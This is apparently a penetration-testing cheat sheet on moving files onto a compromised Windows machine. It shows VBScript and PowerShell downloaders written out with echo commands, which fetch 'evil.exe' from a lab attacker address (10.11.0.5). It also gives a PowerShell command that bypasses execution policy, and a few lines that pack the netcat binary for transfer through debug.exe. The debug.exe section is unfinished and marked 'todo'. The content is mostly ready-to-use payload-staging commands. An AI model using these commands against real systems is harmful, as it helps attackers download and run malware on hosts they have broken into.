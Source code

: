 ## Scripting languages
### VBScript
```cmd
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
Execution
```cmd
cscript wget.vbs http://10.11.0.5/evil.exe evil.exe
```

### Powershell
```powershell
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://10.11.0.5/evil.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```
Execution
```cmd
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```
### Debug.exe
for 32 bit systems, with 64k byte size limit for file creation
```
upx -9 nc.exe 
wine exe2bat.exe nc.exe nc.txt
```
todo
